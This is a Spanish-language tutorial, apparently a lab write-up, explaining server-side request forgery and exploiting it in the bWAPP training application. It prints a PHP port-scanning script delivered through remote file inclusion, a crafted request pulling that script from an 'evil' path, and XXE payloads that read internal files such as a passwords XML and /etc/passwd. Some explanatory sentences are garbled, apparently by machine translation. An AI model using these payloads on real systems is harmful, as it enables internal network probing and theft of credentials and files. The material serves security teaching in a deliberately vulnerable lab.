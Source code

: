 # SSRF (Server Side Request Forgery)



## ¿QUE ES SSRF?
Esta vulnerabilidad ocurre cuando una aplicación web permite hacer consultas HTTP del lado del servidor hacia un dominio arbitrario elegido por el atacante.

Esto le permite a un atacante hacer conexión con servicios de la infraestructura interna donde se aloja la web y exfiltrar información sensible.

El punto popular, SSRF (Server Side Request Forgery), es decir, la solicitud del servidor para falsificación, es un atacante que puede vulnerabilidad a través de vulnerabilidades del servidor, enviar una solicitud cuidadosamente construida al servidor como servidor (el objetivo al que ataca generalmente es un interno red a la que no se puede acceder directamente desde la red externa), y un atacante puede realizar varias operaciones no autorizadas utilizando el acceso al servidor de destino.

![](https://i.imgur.com/TTX5qiF.png)


## TIPOS

* SSRF básica

Es decir, un atacante puede recibir una respuesta a la SSRF construida, un atacante puede usar esta vulnerabilidad para realizar operaciones de lectura y escritura.

* SSRF ciego
 
 Debido a que la vulnerabilidad BLIND SSRF no devuelve la respuesta a un atacante, no es posible leer las operaciones para el atacante, pero la operación de lectura se puede realizar fácilmente y el atacante no necesita ver la respuesta.


## CASO PRÁCTICO BWAPP


![](https://i.imgur.com/SOaEQgE.png)

Nos dice lo siguiente:

  1. Utilice RFI para escanear puertos.

  2. Utilice XXE para acceder a los recursos de la red interna.

  3. Usar XXE para bloquear mi Samsung SmartTV (CVE-2013-4890)

**UTILIZAMOS RFI PARA ESCANEAR PUERTOS**

![](https://i.imgur.com/lzfvm8n.png)


```php
<?php>
echo "<script>alert(\"U 4r3 0wn3d by MME!!!\");</script>";// función de salida de eco


if(isset($_REQUEST["ip"]))// Determinar si se envía ip
{
    
    //list of port numbers to scan
    $ports = array(21, 22, 23, 25, 53, 80, 110, 1433, 3306);// Enumere algunos puertos que deben escanearse
    
    $results = array();
    
    foreach($ports as $port)// Atraviesa la matriz
    {


        if($pf = @fsockopen($_REQUEST["ip"], $port, $err, $err_string, 1))// función fsockopen para establecer una conexión, escaneo de puertos
        {


            $results[$port] = true;
            fclose($pf);
            
        }
        
        else
        {


            $results[$port] = false;        


        }


    }
    foreach($results as $port=>$val)
    {


        $prot = getservbyport($port,"tcp");// Devuelve la información de servicio relacionada con el número de puerto y el nombre de protocolo dados
        echo "Port $port ($prot): ";


        if($val)
        {


            echo "<span style=\"color:green\">OK</span><br/>";


        }


        else
        {


            echo "<span style=\"color:red\">Inaccessible</span><br/>";

        }

    }

}
?>
```


![](https://i.imgur.com/VhIFo8X.png)

Al pulsar en el boton "go" vemos que la URL es  http://192.168.0.9/bWAPP/rlfi.php?language=lang_en.php&action=go
es una vulnerabilidad la cual usandola junto a SSRF, podemos construir un script de escaneo de puertos para hacer que el servidor inicie una solicitud.

Con burpsuite interceptando y a traves del metodo get request

```
GET /bwapp/rfli.php?language=http://192.168.0.9/evil/ssrf-1.txt&action=go&tip=192.168.0.9 HTTP/1.1
HOST: 192.168.0.9
```
![](https://i.imgur.com/aMclzSs.png)






**Utilice XXE para acceder a recursos en la red interna**

El segundo enlace contiene este archivo

```xml
#Accesses a file on the internal network (1)

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY bWAPP SYSTEM "http://localhost/bWAPP/robots.txt">
]>
<reset><login>&bWAPP;</login><secret>blah</secret></reset>


#Accesses a file on the internal network (2)
#Web pages returns some characters that break the XML schema > use the PHP base64 encoder filter to return an XML schema friendly version of the page!

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY bWAPP SYSTEM "php://filter/read=convert.base64-encode/resource=http://localhost/bWAPP/passwords/heroes.xml">
]>
<reset><login>&bWAPP;</login><secret>blah</secret></reset>

```

Revisamos el robots.txt

![](https://i.imgur.com/TL3NSbh.png)


Pero vemos que dentro de /passwords hay /bWAPP/passwords/heroes.xml.


![](https://i.imgur.com/062D6J3.png)

de esta misma forma podemos sacar /etc/passwd

![](https://i.imgur.com/3bnApPl.png)


![](https://i.imgur.com/TrUj0YX.png)





